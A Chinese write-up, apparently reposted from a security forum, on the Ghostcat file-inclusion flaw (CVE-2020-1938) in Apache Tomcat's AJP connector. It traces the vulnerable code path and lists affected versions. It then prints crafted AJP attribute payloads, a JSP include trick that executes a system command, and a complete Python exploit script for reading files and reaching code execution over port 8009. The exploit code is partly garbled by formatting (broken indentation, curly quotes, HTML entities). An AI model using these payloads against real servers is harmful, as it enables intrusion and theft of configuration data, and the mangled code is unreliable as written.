# （CVE-2020-1938）Apache Tomcat 文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3203](https://www.zhihuifly.com/t/topic/3203)

# （CVE-2020-1938）Apache Tomcat 文件包含漏洞

## 一、漏洞简介

对于处在漏洞影响版本范围内的 Tomcat 而言，若其开启 AJP Connector 且攻击者能够访问 AJP Connector 服务端口的情况下，即存在被 Ghostcat 漏洞利用的风险。

注意 Tomcat AJP Connector 默认配置下即为开启状态，且监听在 0.0.0.0:8009

## 二、漏洞影响

*   Apache Tomcat 6
*   Apache Tomcat 7 < 7.0.100
*   Apache Tomcat 8 < 8.5.51
*   Apache Tomcat 9 < 9.0.31

## 三、复现过程

### 漏洞分析

由于 **AJP** 并不是一个 **HTTP** 业务流，走的是 **Socket** ，所以 **tomcat** 前面接收业务流的时候调用的是一个 **Socket** 解析类 **SocketProcessorBase#dorun** 来处理 **ajp** 传入的二进制流。


而后面这部分的数据流实际上都是 **socket** 内部进行流传处理。



这里需要感谢 **tomcat** 优雅的代码风格，可读性真强，和 **socket** 相关的 **service** 就下图里面的这些，所以AJP的业务流自然就落在了`org/apache/coyote/ajp/AjpProcessor#service`这个方法上面进行处理。



这`org/apache/coyote/ajp/AjpProcessor#service`这个方法里面就留两个关键部分，其他代码太繁杂了，无关大雅，这里首先`this.prepareRequest()`方法是针对整个业务流进行预处理。

```
Copy to clipboard    public SocketState service(SocketWrapperBase<?> socket) throws IOException {
      ...
        while(!this.getErrorState().isError() && !this.endpoint.isPaused()) {
            try {
              ...
            if (this.getErrorState().isIoAllowed()) {
                rp.setStage(2);

```
 try {
                this.prepareRequest();
            } catch (Throwable var12) {
						...
        if (this.getErrorState().isIoAllowed()) {
            try {
                rp.setStage(3);
                this.getAdapter().service(this.request, this.response);
            } 
          ...
} 
``` 
```

跟进 **prepareRequest** 方法，这个方法会进行一个 **while** 为 **true** 的无限循环，根据`attributeCode`的结果进行选择，命中 **case 10** 核心中有个`request.setAttribute(n, v)`方法，这个方法会从我们之前设置方法中取值，设置，遍历循环POC中的`javax.servlet.include.request_uri`，`javax.servlet.include.path_info`，`javax.servlet.include.servlet_path`这三个属性对应的值，并且通过PUT方法进行赋值。

```
Copy to clipboard    private void prepareRequest() {
				...
        while(true) {
            byte attributeCode;
            while((attributeCode = this.requestHeaderMessage.getByte()) != -1) {
                switch(attributeCode) {
                ...
                case 10:
										...
                    } else {
                        this.request.setAttribute(n, v);
                    }
                    break; 
```



好了，这里知道了在 **prepareRequest** 方法中核心是将三个值动态赋予我们想要的结果，再回到`org/apache/coyote/ajp/AjpProcessor#service`中，在经过 **prepareRequest** 方法处理之后来到的就是`getAdapter().service(this.request, this.response);`，这个 **serivce** 就是后续处理 **request** 对象和 **response** 对象了。



在 **org/apache/catalina/connector/CoyoteAdapter#service** 这个类中，主要是设置一些连接的时候一些属性，然后通过 **invoke** 反射方法，根据 **request** 对象和 **response** 对象进入后面的HTTP处理逻辑。




所以又回到了前面的老话，tomcat完善的代码结构，HTTP的逻辑服务处理，自然是落在了 **javax/servlet/http/HttpServlet#service** 当中。



### 任意文件读取

前面是整个 **AJP->HTTP** 整个过程，继续往下跟入，因为通过 **AJP** 转换之后，进行的是 **HTTP GET** 请求，所以来到的自然是是下图中代码位置。



跟进 **doGet** 自然来到之前安恒通告说的地方。


继续跟入 **serveResource**，首先 **getRelativePath** 从之前传入的 **request** 对象中获取 **path** 。



跟进 **getRelativePath** ，一眼就知道为什么要设置 **request_uri** 、**path_info** 、**servlet_path** 这三个属性了，通过路径的拼接，最后返回的 **servletPath** 为`/`，容器内部为 **/WEB-INF/web.xml** 的文件内容。



继续回到 **serveResource** 方法中 **getResource** 根据前面的 **path** 也就是 **/WEB-INF/web.xml** 进行资源获取。而这里是没办法`../`出去的，原因继续往下看。



在 **getResource** 当中有个 **validate** ，这个检查往后走会调用 **normalize** 进行目录遍历的检查，之后就是输出读到的内容了。




由于当前 **AJP** 出不了 **webapps** 目录，但是是可以做到任意目录下读的，比如我需要读 **/example/2.txt** 下的文件，只需要这样配置就好了。

```
Copy to clipboard    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/examples']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',2.txt]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ]) 
```



附上任意文件读取的调用栈

```
Copy to clipboardserveResource:839, DefaultServlet (org.apache.catalina.servlets)
doGet:504, DefaultServlet (org.apache.catalina.servlets)
service:634, HttpServlet (javax.servlet.http)
service:484, DefaultServlet (org.apache.catalina.servlets)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang) 
```

### RCE

```
Copy to clipboard"HTTP/1.1" "/1.jsp" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:1.txt","javax.servlet.include.servlet_path:/upload/" 
```

`org/apache/jasper/servlet/JspServlet#service`负责处理`xxx.jsp`访问逻辑，跟进来 **jspUri** 是通过 **servlet_path** 和 **path_info** 拼接而来的。



之后便会进入 **serviceJspFile** 逻辑进行处理。



跟进 **serviceJspFile** 方法，首先先通过 **getResource** 获取上传文件的内容，然后再通过初始化 **wrapper** 对象传入相关参数，然后再调用 **JspServletWrapper#service** 进行解析。



这简单解释一下，**RCE** 的核心需要进入的 **JspServlet** ，我们平常访问 **xxx.jsp** 是进入到 **Jspservlet** ，poc中访问`/1.jsp`通过 **AJP** 发包的过程中实际上就是我们的Get请求访问`www.xxx.com/1.jsp`，所以这里自然进入了 **JspServlet** 当中，然后再配合 **getResource** 获取上传的文件内容，调用 **Jsp** 引擎进行解析，自然达到了RCE的效果。

最后附上RCE的调用栈

```
Copy to clipboardexec:347, Runtime (java.lang)
_jspService:1, _1_txt (org.apache.jsp)
service:70, HttpJspBase (org.apache.jasper.runtime)
service:741, HttpServlet (javax.servlet.http)
service:476, JspServletWrapper (org.apache.jasper.servlet)
serviceJspFile:386, JspServlet (org.apache.jasper.servlet)
service:330, JspServlet (org.apache.jasper.servlet)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang) 
```

**后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。

```
Copy to clipboard//1.jsp
<%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
<%@ include file="1.txt" %> `[//1.txt](//1.txt)

<%@ Runtime.getRuntime().exec(“open /System/Applications/Calculator.app”);%>` 
```

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有`forwardrequest 2`，根据AJP数据包格式`第6个字节(02)代表是Get请求`。另外在Tomcat中也有相关映射关系，在 **AjpProcessor** 做 **prepareRequest** 处理的时候会根据字节选择相关的请求方式。



### poc

```
cve-2020-1938_exp.py 
```

```
#!/usr/bin/env python
#CNVD-2020-10487  Tomcat-Ajp lfi
#by ydhcui
import struct

# Some references:

# [https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html)

def pack_string(s):

if s is None:

return struct.pack(">h", -1)

l = len(s)

return struct.pack(">H%dsb" % l, l, s.encode(‘utf8’), 0)

def unpack(stream, fmt):

size = struct.calcsize(fmt)

buf = stream.read(size)

return struct.unpack(fmt, buf)

def unpack_string(stream):

size, = unpack(stream, “>h”)

if size == -1: # null string

return None

res, = unpack(stream, “%ds” % size)

stream.read(1) # \0

return res

class NotFoundException(Exception):

pass

class AjpBodyRequest(object):

# server == web server, container == servlet

SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)

MAX_REQUEST_LENGTH = 8186

def **init**(self, data_stream, data_len, data_direction=None):

self.data_stream = data_stream

self.data_len = data_len

self.data_direction = data_direction

def serialize(self):

data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)

if len(data) == 0:

return struct.pack(">bbH", 0x12, 0x34, 0x00)

else:

res = struct.pack(">H", len(data))

res += data

if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:

header = struct.pack(">bbH", 0x12, 0x34, len(res))

else:

header = struct.pack(">bbH", 0x41, 0x42, len(res))

return header + res

def send_and_receive(self, socket, stream):

while True:

data = self.serialize()

socket.send(data)

r = AjpResponse.receive(stream)

while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:

r = AjpResponse.receive(stream)

```
 if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:
			break 
```

class AjpForwardRequest(object):

_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)

REQUEST_METHODS = {‘GET’: GET, ‘POST’: POST, ‘HEAD’: HEAD, ‘OPTIONS’: OPTIONS, ‘PUT’: PUT, ‘DELETE’: DELETE, ‘TRACE’: TRACE}

# server == web server, container == servlet

SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)

COMMON_HEADERS = [“SC_REQ_ACCEPT”,

“SC_REQ_ACCEPT_CHARSET”, “SC_REQ_ACCEPT_ENCODING”, “SC_REQ_ACCEPT_LANGUAGE”, “SC_REQ_AUTHORIZATION”,

“SC_REQ_CONNECTION”, “SC_REQ_CONTENT_TYPE”, “SC_REQ_CONTENT_LENGTH”, “SC_REQ_COOKIE”, “SC_REQ_COOKIE2”,

“SC_REQ_HOST”, “SC_REQ_PRAGMA”, “SC_REQ_REFERER”, “SC_REQ_USER_AGENT”

]

ATTRIBUTES = [“context”, “servlet_path”, “remote_user”, “auth_type”, “query_string”, “route”, “ssl_cert”, “ssl_cipher”, “ssl_session”, “req_attribute”, “ssl_key_size”, “secret”, “stored_method”]

def **init**(self, data_direction=None):

self.prefix_code = 0x02

self.method = None

self.protocol = None

self.req_uri = None

self.remote_addr = None

self.remote_host = None

self.server_name = None

self.server_port = None

self.is_ssl = None

self.num_headers = None

self.request_headers = None

self.attributes = None

self.data_direction = data_direction

def pack_headers(self):

self.num_headers = len(self.request_headers)

res = “”

res = struct.pack(">h", self.num_headers)

for h_name in self.request_headers:

if h_name.startswith(“SC_REQ”):

code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1

res += struct.pack(“BB”, 0xA0, code)

else:

res += pack_string(h_name)

```
 res += pack_string(self.request_headers[h_name])
	return res

def pack_attributes(self):
	res = b""
	for attr in self.attributes:
		a_name = attr['name']
		code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1
		res += struct.pack("b", code)
		if a_name == "req_attribute":
			aa_name, a_value = attr['value']
			res += pack_string(aa_name)
			res += pack_string(a_value)
		else:
			res += pack_string(attr['value'])
	res += struct.pack("B", 0xFF)
	return res
def serialize(self):
	res = ""
	res = struct.pack("bb", self.prefix_code, self.method)
	res += pack_string(self.protocol)
	res += pack_string(self.req_uri)
	res += pack_string(self.remote_addr)
	res += pack_string(self.remote_host)
	res += pack_string(self.server_name)
	res += struct.pack("&gt;h", self.server_port)
	res += struct.pack("?", self.is_ssl)
	res += self.pack_headers()
	res += self.pack_attributes()
	if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:
		header = struct.pack("&gt;bbh", 0x12, 0x34, len(res))
	else:
		header = struct.pack("&gt;bbh", 0x41, 0x42, len(res))
	return header + res
def parse(self, raw_packet):
	stream = StringIO(raw_packet)
	self.magic1, self.magic2, data_len = unpack(stream, "bbH")
	self.prefix_code, self.method = unpack(stream, "bb")
	self.protocol = unpack_string(stream)
	self.req_uri = unpack_string(stream)
	self.remote_addr = unpack_string(stream)
	self.remote_host = unpack_string(stream)
	self.server_name = unpack_string(stream)
	self.server_port = unpack(stream, "&gt;h")
	self.is_ssl = unpack(stream, "?")
	self.num_headers, = unpack(stream, "&gt;H")
	self.request_headers = {}
	for i in range(self.num_headers):
		code, = unpack(stream, "&gt;H")
		if code &gt; 0xA000:
			h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]
		else:
			h_name = unpack(stream, "%ds" % code)
			stream.read(1) # \0
		h_value = unpack_string(stream)
		self.request_headers[h_name] = h_value
def send_and_receive(self, socket, stream, save_cookies=False):
	res = []
	i = socket.sendall(self.serialize())
	if self.method == AjpForwardRequest.POST:
		return res

	r = AjpResponse.receive(stream)
	assert r.prefix_code == AjpResponse.SEND_HEADERS
	res.append(r)
	if save_cookies and 'Set-Cookie' in r.response_headers:
		self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']

	# read body chunks and end response packets
	while True:
		r = AjpResponse.receive(stream)
		res.append(r)
		if r.prefix_code == AjpResponse.END_RESPONSE:
			break
		elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:
			continue
		else:
			raise NotImplementedError
			break

	return res 
```

class AjpResponse(object):

*,*,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)

COMMON_SEND_HEADERS = [

“Content-Type”, “Content-Language”, “Content-Length”, “Date”, “Last-Modified”,

“Location”, “Set-Cookie”, “Set-Cookie2”, “Servlet-Engine”, “Status”, “WWW-Authenticate”

]

def parse(self, stream):

# read headers

self.magic, self.data_length, self.prefix_code = unpack(stream, “>HHb”)

```
 if self.prefix_code == AjpResponse.SEND_HEADERS:
		self.parse_send_headers(stream)
	elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:
		self.parse_send_body_chunk(stream)
	elif self.prefix_code == AjpResponse.END_RESPONSE:
		self.parse_end_response(stream)
	elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:
		self.parse_get_body_chunk(stream)
	else:
		raise NotImplementedError

def parse_send_headers(self, stream):
	self.http_status_code, = unpack(stream, "&gt;H")
	self.http_status_msg = unpack_string(stream)
	self.num_headers, = unpack(stream, "&gt;H")
	self.response_headers = {}
	for i in range(self.num_headers):
		code, = unpack(stream, "&gt;H")
		if code &lt;= 0xA000: # custom header
			h_name, = unpack(stream, "%ds" % code)
			stream.read(1) # \0
			h_value = unpack_string(stream)
		else:
			h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]
			h_value = unpack_string(stream)
		self.response_headers[h_name] = h_value

def parse_send_body_chunk(self, stream):
	self.data_length, = unpack(stream, "&gt;H")
	self.data = stream.read(self.data_length+1)

def parse_end_response(self, stream):
	self.reuse, = unpack(stream, "b")

def parse_get_body_chunk(self, stream):
	rlen, = unpack(stream, "&gt;H")
	return rlen

@staticmethod
def receive(stream):
	r = AjpResponse()
	r.parse(stream)
	return r 
```

import socket

def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):

fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)

fr.method = method

fr.protocol = “HTTP/1.1”

fr.req_uri = req_uri

fr.remote_addr = target_host

fr.remote_host = None

fr.server_name = target_host

fr.server_port = 80

fr.request_headers = {

‘SC_REQ_ACCEPT’: ‘text/html’,

‘SC_REQ_CONNECTION’: ‘keep-alive’,

‘SC_REQ_CONTENT_LENGTH’: ‘0’,

‘SC_REQ_HOST’: target_host,

‘SC_REQ_USER_AGENT’: ‘Mozilla’,

‘Accept-Encoding’: ‘gzip, deflate, sdch’,

‘Accept-Language’: ‘en-US,en;q=0.5’,

‘Upgrade-Insecure-Requests’: ‘1’,

‘Cache-Control’: ‘max-age=0’

}

fr.is_ssl = False

fr.attributes = []

return fr

class Tomcat(object):

def **init**(self, target_host, target_port):

self.target_host = target_host

self.target_port = target_port

```
 self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	self.socket.connect((target_host, target_port))
	self.stream = self.socket.makefile("rb", bufsize=0)

def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
	self.req_uri = req_uri
	self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
	print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
	if user is not None and password is not None:
		self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
	for h in headers:
		self.forward_request.request_headers[h] = headers[h]
	for a in attributes:
		self.forward_request.attributes.append(a)
	responses = self.forward_request.send_and_receive(self.socket, self.stream)
	if len(responses) == 0:
		return None, None
	snd_hdrs_res = responses[0]
	data_res = responses[1:-1]
	if len(data_res) == 0:
		print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
	return snd_hdrs_res, data_res 
```

‘’’

javax.servlet.include.request_uri

javax.servlet.include.path_info

javax.servlet.include.servlet_path

‘’’

import argparse

parser = argparse.ArgumentParser()

parser.add_argument(“target”, type=str, help=“Hostname or IP to attack”)

parser.add_argument(’-p’, ‘–port’, type=int, default=8009, help=“AJP port to attack (default is 8009)”)

parser.add_argument("-f", ‘–file’, type=str, default=‘WEB-INF/web.xml’, help=“file path :(WEB-INF/web.xml)”)

args = parser.parse_args()

t = Tomcat(args.target, args.port)

_,data = t.perform_request(’/asdf’,attributes=[

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.request_uri’,’/’]},

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.path_info’,args.file]},

{‘name’:‘req_attribute’,‘value’:[‘javax.servlet.include.servlet_path’,’/’]},

])

print(’----------------------------’)

print("".join([d.data for d in data])) 
```

## 参考链接

> https://forum.90sec.com/t/topic/801